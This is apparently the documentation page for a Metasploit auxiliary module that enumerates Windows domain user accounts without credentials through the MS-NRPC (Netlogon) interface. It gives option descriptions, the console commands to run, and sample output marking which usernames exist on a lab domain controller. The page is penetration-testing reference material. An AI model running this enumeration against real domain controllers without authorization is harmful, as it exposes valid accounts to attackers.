 ## Vulnerable Application

A new method for gathering domain users. The method leverages auth-level = 1 (No authentication) against the
MS-NRPC (Netlogon) interface on domain controllers. All that's required is the domain controller's IP address,
and the entire process can be completed without providing any credentials.

## Verification Steps

1. Do: `use auxiliary/gather/nrpc_enumusers`
2. Do: `set RHOSTS <targer IP addresses>`
3. Do: `set USER_FILE <path to your users list>`
4. Do: `run`


## Target

To use nrpc_enumusers, make sure you are able to connect to the Domain Controller.
It has been tested with Windows servers 2012, 2016, 2019 and 2022

## Options

### USER_FILE

### Description: Path to the file containing the list of usernames to enumerate. Each username should be on a separate line.

### Usage: Provide the path to the file that contains the list of user accounts you want to test.

### Example: `set USER_FILE /path/to/usernames.txt`

2- `RHOSTS` (required)

### Description: The target IP address or range of IP addresses of the Domain Controllers.

### Usage: Specify the IP address or addresses of the Domain Controllers you are targeting.

### Example: `set RHOSTS 192.168.1.100`

3- `RPORT` (optional)

### Description: The port for the MS-NRPC interface. If not specified, the module will attempt to determine the endpoint.

### Usage: If you know the port used by the MS-NRPC interface, you can specify it. Otherwise, the module will find it automatically.

### Example: `set RPORT 49664`

## Scenarios

The following demonstrates basic usage, using a custom wordlist,
targeting a single Domain Controller to identify valid domain user accounts.

Create a new `./users.txt` file, then run the module:

```
msf auxiliary(gather/nrpc_enumusers) > set RHOSTS 192.168.177.177
RHOSTS => 192.168.177.177
msf auxiliary(gather/nrpc_enumusers) > set USER_FILE users.txt 
USER_FILE => users.txt
msf auxiliary(gather/nrpc_enumusers) > run

[*] 192.168.177.177: - Connecting to the endpoint mapper service...
[*] 192.168.177.177: - Binding to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:192.168.177.177[49664]...
[-] 192.168.177.177: - Tiffany.Molina does not exist
[-] 192.168.177.177: - SMITH does not exist
[-] 192.168.177.177: - JOHNSON does not exist
[-] 192.168.177.177: - WILLIAMS does not exist
[-] 192.168.177.177: - Administratorsvc_ldap does not exist
[-] 192.168.177.177: - svc_ldap does not exist
[-] 192.168.177.177: - ksimpson does not exist
[+] 192.168.177.177: - Administrator exists
[-] 192.168.177.177: - James does not exist
[-] 192.168.177.177: - nikk37 does not exist
[-] 192.168.177.177: - svc-printer does not exist
[-] 192.168.177.177: - SABatchJobs does not exist
[-] 192.168.177.177: - e.black does not exist
[-] 192.168.177.177: - Kaorz does not exist
[*] 192.168.177.177: - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(gather/nrpc_enumusers) >
```
